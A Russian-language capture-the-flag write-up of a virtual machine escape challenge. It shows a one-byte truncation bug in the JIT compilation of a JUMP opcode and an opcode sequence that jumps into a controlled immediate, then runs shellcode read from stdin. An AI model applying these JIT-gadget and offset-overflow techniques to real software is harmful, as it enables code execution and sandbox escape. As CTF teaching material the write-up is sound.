



Таск на побег из виртуальной машины.
Программа может скомпилировать свои инструкции в стандартные инструкции x86_64 и запустить их в RWX сегменте (`0x400000000`). Данные хранятся в отдельном RW сегменте (`0x300000000`). Указатель на данные хранится в регистре `R15`, любое обращение к данным происходит через этот регистр. Машина поддерживает чтение символов из stdin в память через опкод `IOIN`.

# Уязвимость
Рассмотрим компиляцию инструкции `JUMP`:

```cpp
void JUMP::set(byte* code_mem, size_t pos) {
  value = code_mem[pos+1];
}

int JUMP::compile(byte* memory,size_t pos) {
  byte* current = Interpreter::code_memory+Interpreter::ip+2; //start opcode to count which number of bytes we should jump
  size_t jump_value = 0;
  for(size_t i = 0; i < value; i++) {
    byte opcode = *current;
    jump_value+=Interpreter::handlers.at(opcode)->get_compiled_size();
    current+=Interpreter::handlers.at(opcode)->get_size();
  }
  memory[pos++] = 0xeb;
  memory[pos] = jump_value-2;
  return 2;
}
```

Для того, чтобы рассчитать смещение по которому нужно прыгнуть в режиме выполнения машинного кода, компилятор проходит по каждой из перепрыгиваемых виртуальных инструкций и суммирует их размер после компиляции (`->get_compiled_size()`).
Затем это 8-байтовое значение записывается в память как... байт. Этот байт можно переполнить и перепрыгнуть на нелегитимный адрес, например в середину другого опкода.

# Экплуатация
Задача - получить такой `jump_value`, чтобы в результате переполнения опкод `jmp` прыгал в середину другого опкода, в место, где будут контролируемые нами данные.
Для хранения контролируемых данных я использую опкод `MOVRM`, так как он позволяет разместить 4 байтовое число в скомпилированном коде:
```cpp
int MOVRM::compile(byte* memory,size_t pos) {
  memory[pos++] = 0x49;
  memory[pos++] = 0x8d;
  memory[pos++] = 0x87; //lea rax, [r15+addr], r15 contains data memory;
  *(uint32_t*)(memory+pos) = addr;
  pos+=4;
  ...
```

В самих контролируемых данных будет инструкция `mov R15, RAX` так как на момент старта выполнения в регистре `RAX` хранится указатель на сегмент данных.

Методом проб и ошибок получилось подобрать нужное смещение и нужные опкоды после `JUMP` для того, чтобы прыгнуть внутрь `MOVRV`:
```
JUMP,0x21
MOVRR,0,0
MOVRR,0,0
MOVRV,1,0xc7894990
IOIN,ff,1c
IOIN,0,0
IOIN,0,0
IOIN,0,0
...
```

`MOVRR` в данном случае используется для отступов.

Вот, что мы имеем в gdb:



Далее записываем шеллкод в stdin. Вот и все.
